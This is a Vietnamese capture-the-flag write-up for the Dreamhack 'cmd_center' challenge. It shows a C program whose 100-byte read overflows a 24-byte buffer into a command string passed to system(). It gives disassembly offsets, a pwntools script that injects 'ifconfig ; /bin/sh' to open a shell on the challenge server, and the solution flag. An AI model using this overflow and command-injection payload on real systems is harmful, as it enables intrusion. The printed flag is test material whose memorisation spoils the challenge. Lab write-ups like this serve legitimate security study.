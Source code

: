 **1. Tìm lỗi**

Ta có file sorce như sau:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init() {
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{

	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	printf("Center name: ");
	read(0, center_name, 100);


	if( !strncmp(cmd_ip, "ifconfig", 8)) {
		system(cmd_ip);
	}

	else {
		printf("Something is wrong!\n");
	}
	exit(0);
}

```

Chương trình cho mình nhập vào biến `center_name`. Rồi kiểm tra xem 8 byte của biến `cmp_ip` có bằng ipconfig không. Nếu có thì thực hiện system chuỗi đó. Nếu không thì báo lỗi.

**2. Ý tưởng**

Nhập tràn từ biến `center_name` đến `cmp_ip` rồi chèn chuỗi `ipconfig` để vượt qua lệnh `if` và tạo shell. Muốn tạo shell thì chèn thêm chuỗi `/bin/sh` là xong.

**3. Khai thác**

```
   0x0000555555400916 <+105>:   lea    rax,[rbp-0x130]
   0x000055555540091d <+112>:   mov    edx,0x64
   0x0000555555400922 <+117>:   mov    rsi,rax
   0x0000555555400925 <+120>:   mov    edi,0x0
   0x000055555540092a <+125>:   call   0x555555400720 <read@plt>
```

```
   0x000055555540092f <+130>:   lea    rax,[rbp-0x110]
   0x0000555555400936 <+137>:   mov    edx,0x8
   0x000055555540093b <+142>:   lea    rsi,[rip+0xd0]        # 0x555555400a12
   0x0000555555400942 <+149>:   mov    rdi,rax
   0x0000555555400945 <+152>:   call   0x5555554006e0 <strncmp@plt>
```

Ta thấy biến `center_name` cách rbp 0x130 byte, biến `cmd_ip` cách rbp 0x110 byte. Vậy 2 biến cách nhau 0x130 - 0x110 byte. Nên nhập từng đó byte rác rồi chèn chuỗi vào là xong bài toán

Ta có script như sau:

```
from pwn import *

exe = ELF('cmd_center', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 12057)

payload = b'a'*(0x130 - 0x110)
payload += b'ifconfig ; /bin/sh'
r.sendafter(b'name: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{f4c11bf9ea5a1df24175ee4d11da0d16}`